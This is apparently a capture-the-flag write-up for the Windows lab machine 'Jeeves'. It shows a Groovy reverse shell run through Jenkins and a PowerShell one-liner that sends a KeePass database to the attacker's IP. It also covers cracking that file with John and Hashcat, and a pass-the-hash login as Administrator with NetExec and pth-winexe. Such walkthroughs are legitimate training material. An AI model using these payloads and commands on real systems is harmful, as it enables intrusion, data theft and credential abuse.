

# Jeeves

Difficulty: Medium
OS: Windows
Category: Offensive
Date: 2026-09-28
Added: 2026-10-01


I obtained a shell through Jenkins, recovered an administrator hash from a KeePass database, and found the final flag in an NTFS alternate data stream.

## Enumeration

I scanned the target and found the following services:
```shell
# Nmap 7.99 scan initiated Mon Sep 28 10:38:28 2026 as: /usr/lib/nmap/nmap --privileged -vvv -p 80,135,445,50000 -4 -sCV -oN scans-jeeves 10.129.75.78
Nmap scan report for 10.129.75.78
Host is up, received echo-reply ttl 127 (0.23s latency).
Scanned at 2026-09-28 10:38:29 +08 for 48s

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 36431/tcp): CLEAN (Timeout)
|   Check 2 (port 54793/tcp): CLEAN (Timeout)
|   Check 3 (port 21683/udp): CLEAN (Timeout)
|   Check 4 (port 50365/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 4h59m31s, deviation: 0s, median: 4h59m30s
| smb2-time:
|   date: 2026-09-28T07:38:09
|_  start_date: 2026-09-28T07:34:22
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 28 10:39:17 2026 -- 1 IP address (1 host up) scanned in 49.30 seconds
```

The website on port 80 did not provide a useful path forward, so I investigated the second HTTP service on port 50000.




## Foothold
Jenkins was running at `http://10.129.75.78:50000/askjeeves/`. I used a build step to run this Groovy snippet and connect a command shell back to my listener. I didn't save the exact job configuration, so that setup step is missing here.
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Before running the snippet, I set `host` to my VPN address and `port` to my listener port. The `localhost` value in the template would connect back to the target itself. I started the listener first, then ran the build step.

The connection gave me a shell as **kohsuke**. I found the user flag in that account's Desktop directory.

## Root
In `C:\Users\kohsuke\Documents`, I found a KeePass database named **CEH.kdbx**. I transferred it as raw bytes over TCP using the following PowerShell command, with a receiver already listening on my machine:
```powershell
powershell -NoProfile -Command "$c=New-Object Net.Sockets.TcpClient('10.10.15.245',8000);$s=$c.GetStream();$b=[IO.File]::ReadAllBytes('C:\Users\kohsuke\Documents\CEH.kdbx');$s.Write($b,0,$b.Length);$s.Close();$c.Close()"
```

I started this receiver before running the PowerShell transfer:
```shell
nc -lp 8000 > CEH.kdbx
```
My existing shell's file-transfer method did not work reliably, so I used this direct transfer instead. I kept the database as binary data rather than trying to print its contents in the terminal.

I extracted the password-verification material with `keepass2john`, then tested the `rockyou.txt` wordlist. My notes include both John and Hashcat commands:
```shell
# Format keepass hash
keepass2john CEH.kdbx > keepass.hash

# you can crack keepass.hash directly using John.
john --format=keepass --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash

# If you prefer hashcat. Remove the username at the prefix like this
# From -> CEH:$keepass$*2*6000*0*
# To -> $keepass$*2*6000*0*
# Then crack
hashcat -m 13400 -a 0 keepass.hashcat /usr/share/wordlists/rockyou.txt
```

I recovered the database password: **moonshine1**.

I opened the database with KeePassXC's CLI and listed its entries:
```shell
keepassxc-cli open CEH.kdbx

ls 
Enter password to unlock CEH.kdbx:
CEH.kdbx> ls
Walmart.com
Bank of America
It's a secret
EC-Council
Keys to the kingdom
DC Recovery PW
Jenkins admin
Backup stuff
General/
Windows/
Network/
Internet/
eMail/
Homebanking/
```

The **Backup stuff** entry contained a value worth investigating:
```shell
CEH.kdbx> show -s "Backup stuff"
Title: Backup stuff
UserName: ?
Password: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
URL:
Notes:
Uuid: {1e72366e-51a0-df47-82fc-92879ee0502e}
Tags:
```

The value had the form of an LM:NT hash pair. That format alone did not identify its owner, so I tested the NT hash against the `Administrator` account with NetExec:
```shell
nxc smb 10.129.75.78 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'
SMB         10.129.75.78    445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.129.75.78    445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

NetExec authenticated successfully and reported **Pwn3d!**, indicating administrative access. I then enumerated the available shares:
```shell
nxc smb 10.129.75.78 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00' --shares
SMB         10.129.75.78    445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.129.75.78    445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.75.78    445    JEEVES           [*] Enumerated shares
SMB         10.129.75.78    445    JEEVES           Share           Permissions     Remark
SMB         10.129.75.78    445    JEEVES           -----           -----------     ------
SMB         10.129.75.78    445    JEEVES           ADMIN$          READ,WRITE      Remote Admin
SMB         10.129.75.78    445    JEEVES           C$              READ,WRITE      Default share
SMB         10.129.75.78    445    JEEVES           IPC$            READ            Remote IPC
```

The account had read and write access to `C$` and `ADMIN$`. I used `pth-winexe` with the hash pair to start a remote command shell:
```shell
pth-winexe -U 'Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' //10.129.75.78 cmd
```

In `C:\Users\Administrator\Desktop`, I found `hm.txt` instead of a plainly named root flag:
```cmd
C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```
The hint prompted me to run `dir /R`, which lists alternate data streams as well as ordinary files.

### Alternate Data Streams

An NTFS file can have named data streams in addition to its default contents. A normal directory listing does not display those stream names, but `dir /R` revealed a `root.txt` stream attached to `hm.txt`:
```cmd
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,657,460,224 bytes free
```

I read the named stream using input redirection with `more`:
```cmd
more < hm.txt:root.txt:$DATA
afbc<REDACTED>530
```

That revealed the administrator flag and completed the machine.
